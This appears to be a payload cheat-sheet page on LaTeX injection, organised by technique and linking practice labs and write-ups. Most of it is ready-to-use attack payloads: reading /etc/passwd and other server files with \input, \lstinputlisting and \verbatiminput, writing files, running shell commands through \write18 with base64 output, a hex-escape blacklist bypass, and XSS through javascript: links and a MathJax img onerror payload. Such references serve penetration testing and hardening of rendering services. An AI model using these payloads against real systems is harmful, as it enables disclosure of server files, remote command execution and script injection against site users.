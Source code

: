 # LaTeX Injection

> LaTeX Injection is a type of injection attack where malicious content is injected into LaTeX documents. LaTeX is widely used for document preparation and typesetting, particularly in academia, for producing high-quality scientific and mathematical documents. Due to its powerful scripting capabilities, LaTeX can be exploited by attackers to execute arbitrary commands if proper safeguards are not in place. 


## Summary

* [File Manipulation](#file-manipulation)
    * [Read File](#read-file)
    * [Write File](#write-file)
* [Command Execution](#command-execution)
* [Cross Site Scripting](#cross-site-scripting)
* [References](#references)


## File Manipulation

### Read File

Attackers can read the content of sensitive files on the server.

Read file and interpret the LaTeX code in it:

```tex
\input{/etc/passwd}
\include{somefile} # load .tex file (somefile.tex)
```

Read single lined file:

```tex
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

Read multiple lined file:

```tex
\lstinputlisting{/etc/passwd}
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

Read text file, **without** interpreting the content, it will only paste raw file content:

```tex
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

If injection point is past document header (`\usepackage` cannot be used), some control 
characters can be deactivated in order to use `\input` on file containing `$`, `#`, 
`_`, `&`, null bytes, ... (eg. perl scripts).

```tex
\catcode `\$=12
\catcode `\#=12
\catcode `\_=12
\catcode `\&=12
\input{path_to_script.pl}
```

To bypass a blacklist try to replace one character with it's unicode hex value. 
- ^^41 represents a capital A
- ^^7e represents a tilde (~) note that the ‘e’ must be lower case

```tex
\lstin^^70utlisting{/etc/passwd}
```

### Write File

Write single lined file:

```tex
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\write\outfile{Line 2}
\write\outfile{I like trains}
\closeout\outfile
```


## Command Execution

The output of the command will be redirected to stdout, therefore you need to use a temp file to get it.

```tex
\immediate\write18{id > output}
\input{output}
```

If you get any LaTex error, consider using base64 to get the result without bad characters (or use `\verbatiminput`):

```tex
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```tex
\input|ls|base64
\input{|"/bin/hostname"}
```


## Cross Site Scripting

From [@EdOverflow](https://twitter.com/intigriti/status/1101509684614320130) 

```tex
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```

in [mathjax](https://docs.mathjax.org/en/latest/input/tex/extensions/unicode.html)

```tex
\unicode{<img src=1 onerror="<ARBITRARY_JS_CODE>">}
```


## Labs

* [Root Me - LaTeX - Input](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Input)
* [Root Me - LaTeX - Command execution](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Command-execution)


## References

- [Hacking with LaTeX - Sebastian Neef - March 10, 2016](https://0day.work/hacking-with-latex/)
- [Latex to RCE, Private Bug Bounty Program - Yasho - July 6, 2018](https://medium.com/bugbountywriteup/latex-to-rce-private-bug-bounty-program-6a0b5b33d26a)
- [Pwning coworkers thanks to LaTeX - scumjr - November 28, 2016](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)